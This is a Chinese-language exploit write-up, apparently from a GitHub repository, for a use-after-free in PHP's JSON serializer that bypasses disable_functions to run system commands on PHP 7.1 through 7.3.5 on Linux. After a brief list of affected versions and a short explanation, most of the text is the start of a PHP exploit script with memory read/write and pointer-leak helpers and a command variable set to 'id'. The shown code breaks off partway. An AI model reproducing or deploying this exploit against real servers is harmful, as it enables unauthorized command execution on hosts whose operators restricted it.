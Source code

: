 ### 使用条件:

Linux 操作系统

PHP 版本

> 7.1 - all versions to date
>
> 7.2 < 7.2.19 (released: 30 May 2019)
>
> 7.3 < 7.3.6 (released: 30 May 2019)

### 原理简述

此漏洞利用json序列化程序中的释放后使用[漏洞](https://bugs.php.net/bug.php?id=77843)，利用json序列化程序中的堆溢出触发，以绕过`disable_functions`和执行系统命令。

###  利用脚本

```php
<?php

$cmd = "id";

$n_alloc = 10; # increase this value if you get segfaults

class MySplFixedArray extends SplFixedArray {
    public static $leak;
}

class Z implements JsonSerializable {
    public function write(&$str, $p, $v, $n = 8) {
      $i = 0;
      for($i = 0; $i < $n; $i++) {
        $str[$p + $i] = chr($v & 0xff);
        $v >>= 8;
      }
    }

    public function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    public function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    # unable to leak ro segments
    public function leak1($addr) {
        global $spl1;

        $this->write($this->abc, 8, $addr - 0x10);
        return strlen(get_class($spl1));
    }

```
